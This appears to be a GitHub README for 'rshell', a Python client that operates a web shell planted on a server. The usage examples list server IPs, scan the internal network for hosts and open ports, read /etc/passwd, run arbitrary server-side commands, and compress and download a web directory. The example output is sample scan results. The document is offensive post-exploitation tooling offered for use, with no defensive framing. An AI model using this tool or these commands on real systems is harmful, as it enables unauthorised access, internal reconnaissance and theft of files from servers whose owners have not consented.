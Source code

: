 
# rshell
## Remote command line interpreter via web shell

###Usage:
	python rshell.py -u shell_url [-p proxy:port]
####Examples:
	* python rshell.py -u http://127.0.0.1/shell.php

		#Get the ips assigned to the server interfaces
		rshell:~ get_local_ips
		{'127.0.0.1': {'mask_bits': 8}, '192.168.1.8': {'mask_bits': 24}}

		#Find hosts in the server internal network
		rshell:~ find_hosts

		IP: 192.168.1.3
		Host name: 
 
		IP: 192.168.1.2
		Host name: 
		 
		IP: 192.168.1.1
		Host name: 
		23/tcp    open  telnet
		53/tcp    open  domain
		80/tcp    open  http
		52869/tcp open  unknown
		 
		IP: 192.168.1.8
		Host name: 
		22/tcp  open  ssh
		80/tcp  open  http
		111/tcp open  rpcbind
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds

		#Run a command on the server side
		rshell:~ cat /etc/passwd

		#Run a command on the client side
		rshell:~ !command_in_client_side

		#Compress and download a folder
		rshell:~ dwfolder /var/www/html

	* python rshell.py -u http://127.0.0.1/shell.php -p proxy:port
